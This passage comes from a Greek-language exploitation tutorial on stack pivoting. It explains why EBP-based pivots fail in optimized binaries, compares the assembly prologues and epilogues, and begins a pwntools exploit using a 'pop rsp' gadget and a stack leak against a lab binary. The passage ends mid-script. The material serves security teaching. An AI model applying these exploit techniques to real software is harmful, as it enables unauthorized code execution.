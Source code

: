 ```python
)

pause()
p.sendline(payload)
print(p.recvline())
```
## Η EBP ενδέχεται να μη χρησιμοποιείται

Όπως [**εξηγείται σε αυτήν την ανάρτηση**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1), αν ένα δυαδικό αρχείο μεταγλωττίζεται με κάποιες βελτιστοποιήσεις, το **EBP δεν καταφέρνει να ελέγξει το ESP**, επομένως, οποιαδήποτε εκμετάλλευση που λειτουργεί ελέγχοντας το EBP θα αποτύχει βασικά επειδή δεν έχει κανένα πραγματικό αποτέλεσμα.\
Αυτό συμβαίνει επειδή το **προλόγιο και το επίλογο αλλάζουν** αν το δυαδικό αρχείο είναι βελτιστοποιημένο.

* **Μη βελτιστοποιημένο:**
```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```
* **Βελτιστοποιημένο:**
```bash
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
ret                 # return
```
## Άλλοι τρόποι για να ελέγχετε το RSP

### **`pop rsp`** gadget

[**Σε αυτήν τη σελίδα**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) μπορείτε να βρείτε ένα παράδειγμα χρησιμοποιώντας αυτήν την τεχνική. Για αυτήν την πρόκληση χρειαζόταν να καλεστεί μια συνάρτηση με 2 συγκεκριμένα ορίσματα, και υπήρχε ένα **`pop rsp` gadget** και υπήρχε ένα **διαρροή από τη στοίβα**:
```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
```